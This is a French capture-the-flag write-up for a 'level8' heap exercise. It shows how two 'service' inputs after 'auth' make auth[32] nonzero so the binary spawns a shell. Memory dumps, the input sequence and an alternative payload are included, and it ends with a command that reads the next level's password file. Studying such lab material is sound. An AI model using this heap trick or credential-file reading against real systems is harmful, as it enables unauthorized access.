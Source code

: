 # level8 - Heap Memory Manipulation

## Analyse du Programme

**Structure**
- Boucle principale avec `fgets(buf, 128, stdin)`
- Commandes disponibles: `auth`, `reset`, `service`, `login`
- Vérification critique: `auth[32] != 0` pour `login`

**Comportement Mémoire**
- `auth`: alloue 4 bytes à `0x804a008`
- `service`: utilise `strdup` sur `buf+7`
- Chaque allocation décale de 16 bytes
- Headers malloc entre les blocs

## Exploitation

**Étapes**
1. `auth`: initialise le pointeur auth
2. Premier `serviceAAAA`: écrit à `0x804a018`
3. Second `serviceAAAA`: écrit à `0x804a028`
4. `login`: vérifie `auth` qui pointe maintenant vers nos "AAAA"

**Memory**

```nasm
0x804a008:      0x0000000a(auth)      0x00000000      0x00000000      0x00000011
0x804a018:      0x41414141(AAAA)      0x0000000a      0x00000000      0x00000011
0x804a028:      0x41414141(AAAA)      0x0000000a      0x00000000      0x00020fd1
                        |
                        |
          auth+32 <-----+
```

**Séquence d'Exploitation**
```bash
auth 
serviceAAAA
serviceAAAA
login
```

Cette exploitation fonctionne car:
- Le second bloc "AAAA" est placé à `auth + 32`
- La condition `auth != 0` devient vraie
- Le programme exécute `system("/bin/sh")`

**Solution supplementaire**
```
auth aaaa                   // Les 'a' sont presents a but illustratif
servicebbbbbbbbbbbbbbbb     // 16 * 'b'
login
```

Apercu de la memoire:
```
0x804a008:      0x61616161      0x0000000a      0x00000000      0x00000019
0x804a018:      0x62626262      0x62626262      0x62626262      0x62626262
0x804a028:      0x0000000a      0x00020fd9      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
```

Sachant que `auth` fait un `malloc` de 4 qui sera aligne a 16 (1ere ligne) et que la prochaine allocation se fera a la suite (2eme ligne), nous en deduisons que 17 octets suffiront, et oui, n'oublions pas le '\n' ! auth[32] = "0x0000000a" soit '\n'.

**Obtention du Flag**
```bash
cat /home/user/level9/.pass
```

